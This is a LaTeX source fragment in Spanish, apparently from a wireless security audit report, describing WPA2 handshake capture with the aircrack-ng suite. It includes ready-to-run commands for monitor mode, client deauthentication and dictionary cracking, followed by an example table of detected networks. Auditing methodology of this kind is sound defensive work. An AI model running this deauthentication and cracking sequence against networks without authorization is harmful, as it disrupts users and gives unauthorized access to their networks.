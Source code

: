 \documentclass[a4paper, 11pt]{article}
\begin{document}
Este handshake posteriormente será explotado mediante fuerza bruta para evaluar la robustez de la contraseña.



\begin{lstlisting}[language=bash, style=terminalstyle, caption=Captura WPA2 con Aircrack-ng]
    # Configuración de la antena en modo monitor
$ sudo airmon-ng start wlan0
    # Escaneo de redes WiFi disponibles
$ sudo airodump-ng wlan0mon
    # Selección de la red objetivo y captura del handshake
$ sudo airodump-ng --bssid BSSID --channel CHANNEL -w capture wlan0mon
    # Desautenticación de clientes para capturar el handshake en paralelo con airodump-ng
$ sudo aireplay-ng -0 9 -a BSSID -c CLIENT_MAC wlan0mon
    # Análisis del handshake capturado
$ sudo aircrack-ng -w /path/to/wordlist.txt capture-01.cap
\end{lstlisting}



\subsubsection*{Resultados esperados}

Se espera obtener los siguientes resultados clave tras la ejecución de las herramientas de análisis de redes inalámbricas:

\begin{itemize}
    \item \textbf{Inventario detallado de redes detectadas} (visibles y ocultas), incluyendo información como el \textit{SSID}, canal, \textit{BSSID}, tipo de cifrado y potencia de señal.
    
    \item \textbf{Captura del handshake WPA/WPA2}, que servirá para evaluar posteriormente la robustez de la contraseña mediante técnicas de fuerza bruta o diccionario, y así estimar la complejidad real de explotación.
\end{itemize}

\vspace{1em}

\begin{table}[H]
\centering
\renewcommand{\arraystretch}{1.2}
\begin{tabular}{|l|c|l|c|c|}
\hline
\textbf{SSID} & \textbf{Canal} & \textbf{BSSID} & \textbf{Cifrado} & \textbf{Potencia (dBm)} \\
\hline
WLAN-Casa     & 6      & 00:14:22:01:23:45 & WPA2 & -45 \\
Red Oculta    & 11     & A1:B2:C3:D4:E5:F6 & WPA2 & -60 \\
Biblioteca    & 1      & 12:34:56:78:9A:BC & WEP      & -72 \\
INVITADOS     & 3      & DE:AD:BE:EF:00:01 & Abierta  & -50 \\
\hline
\end{tabular}
\caption{Ejemplo de redes inalámbricas detectadas con Airodump-ng}
\label{tab:redes_detectadas}
\end{table}
\end{document}

